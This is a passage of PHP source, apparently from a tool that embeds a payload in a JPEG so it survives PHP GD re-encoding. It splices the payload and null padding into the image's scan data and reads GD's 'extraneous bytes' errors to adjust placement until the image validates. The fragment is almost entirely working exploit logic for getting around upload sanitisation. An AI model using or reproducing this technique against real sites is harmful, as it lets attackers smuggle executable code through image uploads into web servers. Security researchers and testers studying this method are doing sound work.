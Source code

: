 ```php
				checkImage('_'.$argv[1], $outStreamTmp, TRUE);
				if($extraBytes !== 0) {
					while((!$dis->eof())) {
						if($dis->readByte() === 0xFF) {
							if($dis->readByte !== 0x00) {
								break;
							}
						}
					}
					$stopPos = $dis->seek() - 2;
					$imageStreamSize = $stopPos - $startPos;
					$outStream = 
						substr($outStream, 0, $startPos) . 
						$miniPayload . 
						substr(
							str_repeat("\0",$nullbytePayloadSize).
								substr($outStream, $startPos, $imageStreamSize),
							0,
							$nullbytePayloadSize+$imageStreamSize-$extraBytes) . 
								substr($outStream, $stopPos);
				} elseif($correctImage) {
					$outStream = $outStreamTmp;
				} else {
					break;
				}
				if(checkImage('payload_'.$argv[1], $outStream)) {
					die('Success!');
				} else {
					break;
				}
			}
		}
	}
	unlink('payload_'.$argv[1]);
	die('Something\'s wrong');

	function checkImage($filename, $data, $unlink = FALSE) {
		global $correctImage;
		file_put_contents($filename, $data);
		$correctImage = TRUE;
		imagecreatefromjpeg($filename);
		if($unlink)
			unlink($filename);
		return $correctImage;
	}

	function custom_error_handler($errno, $errstr, $errfile, $errline) {
		global $extraBytes, $correctImage;
		$correctImage = FALSE;
		if(preg_match('/(\d+) extraneous bytes before marker/', $errstr, $m)) {
			if(isset($m[1])) {
				$extraBytes = (int)$m[1];
			}
		}
	}

	class DataInputStream {
		private $binData;
		private $order;
		private $size;

		public function __construct($filename, $order = false, $fromString = false) {
			$this->binData = '';
```